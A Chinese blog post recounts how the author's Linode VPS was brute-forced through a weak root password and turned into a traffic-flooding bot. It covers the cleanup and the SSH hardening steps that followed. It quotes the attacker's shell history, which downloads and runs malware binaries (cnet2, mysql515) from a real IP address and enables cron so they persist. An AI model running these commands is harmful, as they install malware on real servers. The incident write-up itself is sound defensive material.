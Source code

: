 ```yaml
---
title: linode 使用记
date: 2016-12-21 14:48:15
tags:
---
```


使用Linode也有一段时间了，感觉非常不错，虽然使用的是加州的机房，延时基本上稳定在200ms左右，web访问感觉不明显，ssh尚可接受。据说日本机房在100ms多一点，但是考虑到要做迁移工作，还是先保持不动吧，待有时间再研究。


由于以前都是在局域网或者虚拟机上搭建服务器，从来没有关注过安全方面的配置，导致我的VPS安全配置不足。上个月遭受到Dos攻击，让我意识到了安全的重要性 ，以前没有什么概念，原来网络攻击离我们这么近。

被攻击后的症状是疯狂的往外发数据，从下面的图表可以看出有三天的时间几乎是满负荷的发送（注意看左边的单位），导致我2TB的流量在两天不到就被消耗殆尽。其实在使用80%流量时系统会自动发送邮件提醒，当时正值国庆假期，收到邮件时没有引起重视。后来Linode客服也发现了异常，主动创建了一个Ticket问我是怎么回事，我才发现流量已经超了400多G。。
![wifi direct](/images/misc/linode_data_traffic.jpg)

赶紧登录上去使用nethogs查看网络使用情况，原来是一个名叫mysql515的进程在以80Mbps左右的速度往外发送数据，立即kill掉再想办法清理。

想要知道为什么被攻击，就必须知道哪些人登录过服务器，/var/log/auth.log是一个重要的线索，它记录了所有用户的登录日志。打开后非常壮观，已经有好几万行的日志，其中有很大一部分都是尝试root和admin的错误登录记录，应该是利用脚本不断的尝试root密码。这么多日志也不好去查什么时间被谁攻破，我估计root密码已经被试出来了，因为我的密码是一个常用单词。查看/root/.bash_history，一切都明白了：

```shell
service crond start
/etc/rc.d/init.d/crond start
killall -9 cnet2
cd /bin
rm -rf cnet2
wget -c http://61.160.194.120:120/cnet2
chmod 0755 /bin/cnet2
./cnet2
cd /etc
mkdir init.d
mkdir rc.d
cd /etc/rc.d
mkdir rc5.d
cd /bin
rm -rf mysql515 cnet2 socket
wget -c http://61.160.194.120:121/mysql515
chmod 0777 /bin/mysql515
./mysql515
service crond start
/etc/rc.d/init.d/crond start
```

按图索骥，根据它执行的命令将所有相关的文件找到并彻底删除，注意有启动cron服务，它在/etc/crontab里面增加了一个定时启动脚本，也要一并删除，不然还会死灰复燃。

以上只是查找和清除病毒文件，如何防止以后再被攻击呢？我做了以下措施：

1. 必须的，修改root密码，大写小写数字符号，能用上的都用上，不要忘记就好。:)
2. 禁止ssh的root登录，修改/etc/ssh/sshd_config，将PermitRootLogin yes改为PermitRootLogin no
3. 修改ssh的默认端口，只要65535以内都行，也在/etc/ssh/sshd_config，Port 65535，当然，登录需要多增加一个参数：ssh -p 65535 user@server.com

修改后，再去查看/var/log/auth.log，世界一下就清净了。当然，以上的修改不足以使VPS非常安全，但是防止普通的攻击已经足够了。

这里要赞一个Linode的客服，他们的服务非常的周到而且专业，主动建立Ticket，每天都会在Ticket上问你的进展并询问你是否需要帮助，在任何时候你需要帮助他们都会在10分钟以内给予你答复，一个月10刀的价格我觉得值了，想想国内的公司什么时候能做到这种水平。

忘记说超流量的收费问题了，信用卡账单下来才知道这个月多收了47刀，价格是0.1刀/1G，也就是说我超了470G，价格不便宜，但是正常使用我想怎么样也不会超吧，所以请大家千万做好防护措施。万幸的是攻击发生在月末，有部分流量是算10月份的，否则多交的钱可能翻番。

最后，祝大家都能拥有满意的VPS！
